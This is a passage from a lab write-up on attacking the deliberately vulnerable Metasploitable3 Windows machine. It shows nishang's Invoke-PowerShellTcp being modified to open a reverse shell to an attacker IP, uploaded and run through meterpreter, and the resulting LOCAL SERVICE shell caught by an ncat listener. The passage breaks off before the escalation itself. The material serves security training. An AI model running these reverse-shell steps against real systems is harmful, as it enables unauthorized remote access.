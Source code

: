 At this point, my goal was to escalate my privileges from `LOCAL SERVICE` to `LOCAL SYSTEM`.


## Privilege Escalation

From a meterpreter session, I normally like to escalate my privileges to a powershell session with the [nishang](https://github.com/samratashok/nishang) post exploitation framework since I find it easier to navigate Windows systems with powershell rather than dos. If you are running kali linux, you can install it with the following command:

```bash
sudo apt install nishang
```

You should be able to find the nishang post exploitation framework under `/usr/share/nishang`.

I normally modify and use the `Invoke-PowerShellTcp.ps1` script from nishang to get a powershell reverse shell. I appended the following line to `Invoke-PowerShellTcp.ps1` so that executing the powershell script would invoke it:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 172.28.128.1 -Port 2001
```

Next, I uploaded the script via my meterpreter session:

```
meterpreter > upload /home/kali/dc902/metasploitable3/practice/windows/privesc/Invoke-PowerShellTcp.ps1
[*] uploading  : /home/kali/dc902/metasploitable3/practice/windows/privesc/Invoke-PowerShellTcp.ps1 -> Invoke-PowerShellTcp.ps1
[*] Uploaded -1.00 B of 4.30 KiB (-0.02%): /home/kali/dc902/metasploitable3/practice/windows/privesc/Invoke-PowerShellTcp.ps1 -> Invoke-PowerShellTcp.ps1
[*] uploaded   : /home/kali/dc902/metasploitable3/practice/windows/privesc/Invoke-PowerShellTcp.ps1 -> Invoke-PowerShellTcp.ps1
```

I then executed the script by passing the script as an argument to the powershell command:

```
meterpreter > execute -f "powershell .\Invoke-PowerShellTcp.ps1"
Process  created.
```

Which connected back to my netcat listener:

```
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 172.28.128.4.
Ncat: Connection from 172.28.128.4:49329.
Windows PowerShell running as user LOCAL SERVICE on METASPLOITABLE3
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files\jmx>whoami
nt authority\local service
```
